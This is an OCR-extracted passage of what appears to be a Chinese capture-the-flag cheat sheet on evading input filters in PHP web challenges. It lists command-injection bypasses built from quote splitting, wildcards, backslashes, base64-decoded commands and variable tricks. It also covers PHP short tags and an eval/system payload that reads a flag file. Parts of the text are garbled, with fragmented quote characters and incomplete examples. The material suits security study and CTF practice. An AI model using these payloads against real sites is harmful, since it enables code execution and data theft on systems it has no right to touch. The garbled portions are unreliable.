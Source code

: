 '' ，  
“”  
单引号和双引号截断绕过，如fl''ag.php  
  
“  
?  
”  
可替代单个字符。  
“  
*  
”  
可替代任意字符，如fla?.php   
  
. 如php被过滤，可以 用 p  
“  
.  
”  
hp  
#### 6. 反斜杠  
  
ca\t f\la\g.php  
#### 7. PHP短标签  
  
PHP的标签有至少四种：<?php ?>、<?=   
?>、<script language="php"></script>、<? ?>、<% %>(ASP风格)、<%= %>。  
  
  
<?=相当于是一个<?php echo  
  
  
PHP的配置文件php.ini中：  
  
  
"<? ?>"的支持需要short_open_tag=On,要在XML中使用PHP，需要禁用此标签。  
  
  
"<%%>"的支持需要asp_tags=On。  
  
  
"<?= ?>"总是有效的，无论short_open_tag是否设置。  
  
  
除了<?php ?>和<?=?>其他的标签在PHP7.0.0中被移除,强烈建议使用<?php?>标签，代码才能更好的兼容性。  
#### 8. 敏感字符绕过  
##### l 变量绕过  
  
a=l,b=s;  
b  
##### l base64编码绕过  
  
echo 'cat' | base64  
  
`echo 'Y2F0Cg==' | base64 -d` test.txt  
##### l 文件包含绕过  
  
c=eval($_GET[a]);&a=system('cat fla*');  
  
c=eval($_GET[a])?>&a=system('cat fla*');#如果过滤了分号，可以用？> 闭合进行绕过  
  